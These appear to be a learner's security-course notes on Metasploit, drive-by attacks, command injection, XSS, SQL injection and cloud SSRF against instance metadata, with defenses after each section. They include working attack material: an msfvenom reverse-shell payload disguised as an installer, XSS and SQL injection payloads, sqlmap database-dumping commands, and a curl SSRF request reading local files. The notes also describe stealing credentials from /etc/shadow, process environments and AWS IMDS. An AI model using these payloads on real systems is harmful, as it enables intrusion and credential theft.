Here we start getting deeper into the tools and attacks used to compromise targets. Heads up, and keep your eyes open to spot these attacks at first sight.


## Metasploit

Metasploit is an open-source, cross-platform framework for developing and executing exploits and payloads. To use it, you select an exploit from its huge built-in pool, set the target IP and port, and supply any additional arguments the exploit requires. Metasploit then handles the rest — building a custom package containing the exploit and payload, and launching it against the victim. It also includes scanning options (UDP port scanning, vulnerability scanning) and a number of evasion techniques.

Metasploit's **arsenal** includes ready-to-go exploits — code that forces the victim to execute a payload — targeting Windows, macOS, Linux, and other platforms, plus a library of payloads (reverse shells, listeners on specific ports, and more). The user doesn't need to understand the internals; the GUI alone is enough, which is exactly what makes it a script kiddie's dream. Beyond exploits and payloads, Metasploit ships with port scanners, vulnerability scanners, denial-of-service tools, fuzzers for finding new flaws, post-exploitation tools for plundering data from a compromised host, and tooling to help develop new exploits and payloads from scratch.

Metasploit offers several **UI** options: command-line, a web interface, and a GUI called Armitage. Launching an attack typically means: selecting an exploit (some can first check whether the target is actually vulnerable), setting the target IP and port, configuring a reverse connection if the payload needs one (IP and port of your listener), and finally selecting a payload — most exploits ship with compatible payloads, but some require you to pick or write your own.

Metasploit includes over 2,000 different **exploits**, the majority client-side — browsers, PDF readers, and other software targeting Unix systems and mobile devices. Metasploit commonly leverages memory management vulnerabilities like buffer overflows, heap overflows, and similar bugs.

### Payloads

**Bind shell to arbitrary port:** opens a command shell listener on any TCP port of the attacker's choosing.

**Reverse shell:** shovels a shell back to the attacker on a TCP port, where a Netcat listener (or similar) waits to receive it.

**Windows VNC Server DLL Inject:** lets the attacker remotely control the victim's GUI using VNC. The VNC server runs inside the exploited process rather than being installed separately — it's injected as a DLL.

**Create Local Admin user:** creates a new user in the administrators group with a name and password chosen by the attacker.

### Meterpreter

:::tip
Meterpreter is a payload that loads a DLL into the target process to give the attacker specialized command-line access. Its strength is that it never spawns a new process — it runs entirely inside the exploited process and entirely in memory, with its own command set instead of calling out to native executables on the target machine. This means it doesn't drop files or trigger the kind of process-creation alerts a normal shell would, and it can dynamically load new modules to extend its functionality on the fly.
:::

Meterpreter's core feature set covers displaying system info, interacting with the filesystem, interacting with the network, and interacting with running processes. To help cover its tracks, it encrypts its traffic with TLS.

### Preparation

Keep systems patched — never get lazy about it. Threat intel feeds should keep you aware of currently active threats. Use host-based detection and response (EDR), along with application allowlisting software that only permits approved apps to run. On Linux, deploy SELinux-enabled distributions. Filter all incoming and outgoing traffic and watch for outliers: unusually long domain names, unrecognized DNS data, and suspicious IP connections.



## Drive-By Attacks

This attack targets normal web browsing activity, using a third-party (often compromised) website as the staging ground for delivery. It's a client-side attack since it ultimately operates on the victim's device, and it often focuses on exploiting the browser itself.

### Steps of a Drive-By Attack

1. Identify a vulnerable but otherwise legitimate website.
2. Exploit the website, injecting malicious code or exploit logic into the content it serves to visitors.
3. The victim browses to the compromised website.
4. The attacker's code collects information about the victim's browser; if it's vulnerable, the actual exploit is delivered.
5. The victim's browser connects back to the attacker's infrastructure, granting access to the client.

### Browsers

Browsers are the primary attack surface here. Modern browsers render images in every format, fonts, third-party plugins, HTML5 features, and far more — and each of these is a potential attack surface in its own right.

### Watering Hole Attack

A subtype of the drive-by attack with one key difference: it's targeted. The attacker focuses on a specific organization's personnel or a specific government, for example. Consider a marketing company whose site loads JS, HTML, CSS, and ads from ten different third-party sources — any one of those ten ad networks could be compromised and used to target that company specifically.

### Code-Executing Microsoft Office Files

Attackers can compromise a victim by sending a macro embedded in an Office file (`.docm`, `.xlsm`). Most users would normally delete or ignore such a file, but since it appears to come from a trusted source, they extend trust to it. Attackers typically reinforce this by naming the file something plausible ("updated," "new," etc.), framing it as genuinely useful, and pushing the victim to enable macros.

### Fake Installers

After compromising a website, attackers swap the legitimate installer binary for their own. The best disguise replicates the original functionality and bundles the malicious payload alongside it — since it's coming from the "official" site, victims rarely scrutinize it closely.

### Browser Exploitation Framework (BeEF)

:::tip
BeEF is a toolkit purpose-built for attacking browsers, leveraging cross-site scripting as its primary delivery mechanism. Among its capabilities are social-engineering attacks — fake Google login prompts, fake update notices, and more. The default BeEF server listens on TCP/3000, and it ships with a wide range of post-exploitation modules.
:::



### Building Payloads

**Metasploit MsfVenom:**

MsfVenom is included in the Metasploit suite and converts any exploit into a standalone payload file — `.exe`, `.jar`, PowerShell, and many other formats, across different platforms and architectures, with optional obfuscation and encryption. Example:

```bash title="Generate a Windows reverse-shell payload with MsfVenom"
msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows LHOST=172.16.0.6 LPORT=4444 -o installer.exe
```

:::note
The `-x` parameter lets you specify a template executable, so instead of just generating a raw payload, you can wrap it to behave like a legitimate installer.
:::

### Defense

One of the strongest protections is an application allowlist, which prevents users from running unapproved software and gives the security team a clear baseline to work from. Pair this with rapid patching to keep systems ahead of known exploits. From a preparation standpoint, monitor attack trends and threat intel feeds, and invest in log monitoring along with User and Entity Behavior Analytics (UEBA), which learns normal user behavior and automatically alerts on anomalies.



## System Resource Usage Monitor (SRUM)

SRUM is a built-in Windows service that maintains roughly a 30-day historical record (depending on usage and overwrite rate) of activity: programs executed, Wi-Fi networks joined, per-executable network usage statistics, system energy usage, and more. It's parsed using SRUM-Dump.

:::note
SRUM data lives at `C:\Windows\System32\SRU\SRUDB.dat`, stored as an Extensible Storage Engine (ESE) database. SRUM collects data hourly and at system shutdown. Unsaved data is first written to the registry under `HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\SRUM\Extensions` before being committed to `SRUDB.dat`.
:::

SRUM-Dump reads from `SRUDB.dat` and the relevant registry hive, extracting the data into an Excel spreadsheet. It can run against either a live system or an offline forensic image. On a live system, it first copies the necessary files to a working directory, processes them for a few minutes, and produces an output file named `SRUM_DUMP_OUTPUT.xlsx`.

The Excel output is clean and well organized, with separate tabs for each data category, making it easy to reconstruct how a user has been using the device over the retention window — and to spot signs of an attack.





## Command Injection

Web applications take user input and often pass it to a shell command that processes it. In a vulnerable app, an attacker can inject an additional command after the expected input — typically separated by `;` on Linux or `&` on Windows — so the shell treats it as part of the same call. This can arrive through any input vector: URL parameters, GET/POST variables, cookies, or any other field. The injected commands run with the same privileges as the web server, which is usually limited, but still a powerful foothold an attacker can use for further privilege escalation.

When testing for this vulnerability, try a range of input combinations and command separators to understand exactly how the app processes input. A common first test is injecting the `echo` keyword, since it works across Unix and both Windows cmd and PowerShell.

:::tip
There's also a blind variant where the server returns no visible output regardless of what you inject. Try `ping -n 6 -w 1000 127.0.0.1` — you won't see the ping output directly, but you'll notice the response takes roughly 5 extra seconds. Alternatively, ping your own IP and watch for the resulting ICMP packets on your end to confirm execution.
:::



### Example

This website accepts a first name, last name, email, and description, and produces an image filename like `firstname+lastname.jpg` — an opportunity for injection. For illustration, here's the underlying code:

```
$fbrandfile = "upload/" . $_POST["fname"] . $_POST["lname"] . ".jpg";
system("composite csfooter.png " . $uploadfile . " " . $fbrandfile);
```

Since the image filename is built directly from user-supplied name fields and passed to `system()`, an attacker can inject a command through those fields and have it executed.



### Not Just Web Apps

Command injection isn't limited to web applications. Hardware running a CLI may expose only a small set of "safe" commands, but with the right understanding, those commands can still be abused to inject something else. One documented example is the Crestron DGE-100 digital graphics engine, which exposes a limited command set reachable over a netcat reverse shell — including a `ping` command. Researchers found they could inject additional commands through it, like `ping $(injected command)`, ultimately gaining a privileged reverse shell on the device.

### Defenses

The best defense is educating developers that user input is an attack surface that demands careful handling, paired with regular penetration testing. Monitor web server traffic for anomalies — it's not normal for a server to ping arbitrary hosts or make outbound connections, so watch the protocols in use (SMB, for instance) for anything unexpected. For containment, take the affected service offline if remediation is going to take time, or front it with a WAF in the interim.



## Cross-Site Scripting (XSS)

XSS is a client-side vulnerability, occurring on sites that fail to perform proper input/output validation. The key distinction from command injection: command injection exploits the server, while XSS exploits the trust between the browser and the server to run arbitrary JavaScript (or inject HTML) on the victim's browser. A typical example: an attacker uploads malicious content to a vulnerable site, and that code executes whenever another user visits the page.

Browsers are powerful applications with all kinds of capabilities built in. When a user requests a page from a legitimate server, the browser does exactly what that server instructs — including things as simple as reading a cookie and sending it somewhere else, since the server is treated as the rightful owner of that cookie. In an XSS attack, the attacker's injected JS, HTML, or CSS is relayed by the server to the victim, who executes it with full trust in the originating domain.

### Stored Cross-Site Scripting

Here, the attacker uploads and persists malicious code on a server with improper input validation — a username, bio, or review field, for example. Any visitor to that page is then affected. This attack can't really be targeted at a specific person; you exploit the vulnerability and wait for someone to visit.

1. The attacker uploads malicious content (e.g., JS) into a page they can edit.
2. The server accepts and stores the data for later use.
3. A victim later views, say, an author bio page.
4. The server serves the bio page including the malicious code.
5. The victim's browser executes the code, completing the attack.

### Reflected Cross-Site Scripting

Here the attacker finds an input validation flaw in a GET request parameter. Consider:

```
https://www.trustedbookseller.com/search?Dostoyevsky
```

The server processes the search term and returns matching results. If the input isn't validated, an attacker can instead send:

```
https://www.trustedbookseller.com/search?<script>alert(1);</script>
```

This triggers `alert(1)` for anyone who visits the crafted link — the server "reflects" the injected JS straight back into the response, which is where the name comes from. Because the link itself carries the payload, this attack is easy to target at a specific victim through social engineering, since the legitimate domain in the URL gives them no reason for suspicion.

1. The attacker crafts a link exploiting the reflected XSS flaw and sends it to the victim.
2. The victim clicks the link to the vulnerable site.
3. The site reflects the malicious code from the link back in its response.
4. The victim's browser renders the response, executing the attacker's code.

Reflected XSS exploits the trust between the user and a known-legitimate domain, which is exactly why it's a phishing favorite — victims recognize the domain and assume it's safe, with no way to know the site is vulnerable to XSS underneath.

### What Can an Attacker Do with XSS

XSS payloads, usually JavaScript, can make arbitrary HTTP requests to brute-force internal web applications, render a fake login prompt or keylogger, capture screenshots of the page, scan internal network ports, or rewrite HTML form elements to redirect submissions to the attacker instead of the legitimate server. Payloads can also hijack the microphone or camera, deploy a browser-based cryptominer for the attacker's profit, and — most commonly — simply steal cookies.

### Testing for XSS

Identify any field or parameter where user-supplied data reaches the server — most commonly GET parameters and HTML form fields. A standard probe is injecting the `<hr>` element, which renders visibly if unfiltered, letting you confirm whether input is being encoded or filtered at all.

:::tip
Injecting the string `'';!--"<XSS>=&{()}` and inspecting the output reveals exactly which characters are being filtered. Even if `<` and `>` are stripped, you may still be able to inject something like `SRC=javascript:alert('XSS');` depending on context. Automated tools like ZAP Proxy, Arachni, and Wapiti can help scale this testing.
:::

### Defense

Filter all user input — every potentially dangerous character should be handled, since a single misunderstood edge case or filtering mistake can leave the server vulnerable. Rather than rolling your own filtering, use established third-party libraries: the OWASP Java Encoder Project for Java, HTML Purifier for PHP, Joi for Node.js, and so on. Choosing a web framework that handles output encoding for you by default helps a lot.

A WAF (e.g., ModSecurity for Apache, IIS, and Nginx) doesn't fix the underlying flaw, but provides a useful compensating control. Output validation adds a second filtering layer on top of input validation. Configure the server to set the `HttpOnly` flag on cookies — this doesn't restrict delivery over HTTP, but does make the cookie inaccessible to JavaScript running in the browser (note this can break apps that legitimately need JS to read cookies). A Content Security Policy (CSP) header is another strong layer: it's a set of server-issued instructions telling the browser exactly which content sources are trustworthy.



## SQL Injection

SQL injection is a common web attack technique exploiting input validation flaws in apps that let user input reach the database. The attacker crafts a string that gets accepted by the web server and incorporated into a SQL statement against the backend database — executing the resulting query and returning its results to the attacker. If the server doesn't properly constrain, encode, or filter user-supplied input, it's vulnerable.

### SQL Basics

Every SQL statement consists of three parts:

- **VERB** — the action taken: `SELECT`, `UPDATE`, `DELETE`, `CREATE`, `CONNECT`, `DISCONNECT`, `FETCH`, etc.
- **SOURCE** — the table(s) the verb operates against.
- **REFINEMENT** — optional, used to narrow scope (e.g., to specific columns), via keywords like `FROM`, `WHERE`, and `SET`.

### Injecting SQL Content

Anywhere a user controls input that eventually reaches a SQL statement, there's a potential opening for injection. To test, manipulate the input with special characters and watch for SQL errors or behavioral changes in the response. Consider this server-side query:

```
SELECT filename FROM dropbox WHERE owner = 'user-content';
```

Supplying the string `jwright' OR 'a'='a` causes both halves of the condition to execute, and `'a'='a'` is always true — a tautology. The result: every record in the table gets returned to the attacker, exposing data they were never meant to see.

### Example

Testing for SQL injection follows a similar pattern to XSS — manipulate input and watch the response. Consider a PHP page accepting a `cat` parameter, normally a number. Supplying `1'` instead returns a SQL syntax error containing `/'`, which tells us the backend is MySQL, along with the full path to `listproduct.php` and the exact line where the error occurred.

:::note
The presence of escaped quote characters in the error output shows the server is attempting to sanitize unsafe characters — a PHP technique that complicates, but doesn't fully prevent, SQL injection.
:::



### SQL UNION Statement

`UNION` combines two SQL statements, appending the second result set to the first. Most databases require both `SELECT` statements joined by a `UNION` to return the same number of columns, so a common technique is incrementing a placeholder column count until the error disappears:

```
SELECT ccard, cvv, 1, 2, 3, 4, 5 from payments
```

Going back to the earlier example, `UNION` paired with built-in functions can extract more useful info:

- `@@version` — returns the MySQL version
- `user()` — returns the connected username and hostname
- `system_user()` — returns the Windows authentication account used by the database
- `database()` — returns the current database name

```
UNION SELECT 1,@@version,2,3,4,5,user(),6,database(),7,8
```

This confirms 11 total columns in the underlying query.

### Sqlmap

Manual SQL injection testing is slow; automated tools speed it up considerably by taking one or more targets and rapidly sending SQL probes to determine vulnerability. Common tools include Burp Suite Professional, the Acunetix Web Vulnerability Scanner, and Sqlmap.

The simplest invocation uses `-u` to identify vulnerable parameters in a URL, and it also collects useful backend fingerprinting data like the web server platform and DBMS.

:::caution
Always feed sqlmap a non-error-generating URL — it assumes the URL represents a normal, working request and mutates it from there to identify an error condition. If you start with an already-erroring URL, it won't have a working baseline to compare against. Also remember to wrap the URL in quotes when passing it on the command line.
:::

Once you've found a vulnerable parameter:

```bash title="List available databases"
sqlmap -u "URL" --dbs
```

```bash title="List tables within a selected database"
sqlmap -u "URL" -D dbname --tables
```

```bash title="List columns within a selected table"
sqlmap -u "URL" -D dbname -T tablename --columns
```

```bash title="Dump an entire database or table"
sqlmap -u "URL" -D dbname --dump
```

```bash title="Drop into an interactive SQL shell"
sqlmap -u "URL" --sql-shell
```

### Cloud SQL

Cloud providers offer database services as part of their platforms, ranging from standalone managed products (e.g., Azure SQL Managed Instance) to entirely independent technologies (e.g., Google Spanner, Amazon RDS). These are not immune to SQL injection — in some cases they've introduced new vulnerability classes of their own.

**The role of ORMs:** conventional applications saw a notable drop in SQL injection thanks to Object-Relational Mapping (ORM) frameworks, which abstract away manual SQL statement construction. ORMs add some performance overhead, but meaningfully reduce the attack surface by generating SQL that's resistant to injection by design.

:::caution
Serverless platforms like Azure Functions, AWS Lambda, and Google Cloud Functions have driven a resurgence of SQL injection. Developers often skip ORMs in these environments to reduce overhead and improve cold-start performance, accessing databases directly instead — regressing on the security gains ORMs provided.
:::

### SQL Injection Test Risk

SQL injection testing is genuinely dangerous: a successful tester has effectively full access to the database, including the ability to delete records or overwrite usernames with test values.

:::warning
Always take a full backup of the target database before running SQL injection tests.
:::

### Defenses

The most basic defense is never granting the web application's database account admin permissions — this won't prevent SQL injection outright, but it sharply limits what an attacker can do once they find a flaw. Filter all input that could be used to construct injected queries, and prefer parameterized queries over string concatenation everywhere. Enable database logging for failed statements and syntax errors, which helps you spot active attacks. Finally, a WAF module like ModSecurity for Apache, IIS, or Nginx adds filtering specifically tuned to catch both SQL injection and XSS attempts.



## Cloud Spotlight: SSRF and IMDS

Here we look at Server-Side Request Forgery (SSRF) as applied against cloud Instance Metadata Services (IMDS). SSRF isn't cloud-specific — it shows up in plenty of conventional web apps too — but it's especially interesting in cloud environments. The pattern: a web app accepts user input and uses it to construct a request to another server (e.g., fetching a profile picture). If an attacker can manipulate that input to make the server issue arbitrary HTTP requests, the app is vulnerable to SSRF. This can lead to full server compromise, or to leaking sensitive cloud authentication tokens via the IMDS.

### Web Client Requests

There are two patterns for fetching a remote asset. In the first, the client sends a GET request for, say, `/img=alien.png`; the server parses it and returns HTML instructing the browser to fetch `https://server2/alien.png` directly. The browser then makes a second request of its own to retrieve the image. Here the server only hands back a reference — the client makes the follow-up request.



The second pattern is when the server itself fetches the asset on the client's behalf — a true server-side request. For the same `/img=alien.png` request, instead of returning a reference, the server fetches the asset from `server2` directly and relays the photo back to the client. This server-side fetch pattern is less common, and if the server doesn't validate the target of that fetch, it's exposed to SSRF.

### SSRF

Here's how this gets abused: instead of a relative path like `/img=alien.png`, suppose the parameter takes a full URL — `https://server2/me.jpg`. What happens if we change it to `file:///etc/shadow`? The server still performs its server-side fetch as designed, but now it reads `/etc/shadow` from the local filesystem instead of fetching a remote image — exposing sensitive local data through what looked like an image-loading feature.



### Example

Consider a login page offering several federated login options — Facebook, X, Microsoft — where the selected provider's logo is displayed in the dialog. Inspecting the URL reveals two GET parameters, `F` and `logo`. The `logo` parameter contains a fully qualified CDN URL, meaning a URL is being passed straight through to the server — a strong signal that SSRF might be present.





Changing the `logo` parameter to `file:///etc/hosts` and submitting just returns the same page with a broken image — not conclusive on its own. To see what's actually happening server-side, use `cURL`:

```bash title="Confirm SSRF by inspecting the server response"
curl -v "https://target/login?F=microsoft&logo=file:///etc/hosts"
```

:::important
The verbose output here confirms an SSRF vulnerability — the response includes the actual contents of `/etc/hosts`. SSRF generally doesn't let you list directory contents, but an attacker can still target well-known file paths they expect to exist, like `/etc/passwd` or various log files, though the server's process may not always have permission to read them.
:::



When exploiting SSRF, attackers typically try to access protected files on the host or escalate privileges by harvesting passwords or password hashes — `/etc/shadow` being the classic target. This plays out differently in the cloud: a traditional Linux server needs `/etc/shadow` for local user authentication, but a cloud instance with no interactive logins or local user-based auth has no real need for that file at all. So if a `cURL` request against `/etc/shadow` returns a `Content-Length` of zero, that could mean the file is protected, or simply that it doesn't exist in this context — either way, it nudges the attacker toward more cloud-specific exploitation paths instead.

### Instance Metadata Service (IMDS) Access

IMDS is a virtual server endpoint present on all major cloud providers, letting applications query details about their own runtime environment — resource SKU, hostname, IAM permissions, network settings, storage configuration, and more. Apps access it via a fixed local URL endpoint. In some deployments, developers store custom application data here too.



Systems can use IMDS data to make configuration decisions at boot time or on app startup, making it a powerful way to configure cloud assets without modifying the instance or VM image directly. In some cases IMDS also holds genuinely sensitive data — a database connection string, for example. Because IMDS is accessed over plain HTTP, it's a natural target once an attacker has an SSRF foothold.



### AWS IMDSv1 Credential Exfiltration

:::caution
IMDSv1 is notorious for leaking sensitive data to attackers via SSRF — though the actual impact depends on whether the IAM role attached to the instance carries meaningful permissions. A typical chain: identify the attached role name via IMDS, use it to retrieve that role's temporary security credentials (access key ID, secret access key, and session token), then authenticate directly with the AWS CLI using those stolen credentials.
:::



In response to this widespread issue, AWS introduced IMDSv2, which requires a special HTTP header to access IMDS at all. Since SSRF attackers typically can't control custom headers on the forged request, this single requirement is easy for legitimate apps to build in but meaningfully harder for an SSRF-driven attack to satisfy.



:::warning
IMDSv2 enforcement isn't turned on by default, so a large share of AWS deployments remain vulnerable to IMDS data disclosure via SSRF.
:::

In cloud SSRF attacks, attackers generally care less about traditional system files — which may not even exist in this context — and focus instead on app-specific files that support exploitation, like database connection strings. Cloud workloads also commonly run as root by default, which raises the stakes of any file read.

In many deployments, credentials are passed through environment variables rather than files — generally a better practice than storing them on disk, but still recoverable by an attacker through `/proc/###/environ` (where `###` is a process ID), or in some cases through `/etc/environment`.

### Defense

By now the recurring theme should be clear: validate and sanitize input, everywhere. Log requests at the web server level to help detect SSRF attempts, and enable cloud-side logging for IMDS access too. AWS CloudWatch logs, for instance, can flag unusual external use of temporary credentials — a strong signal those credentials have been compromised, and sometimes even revealing the attacker's IP address. Finally, require developers to use IMDSv2: it doesn't fully eliminate SSRF risk against IMDS, but it raises the bar significantly against basic exploitation.



**الحمد لله done**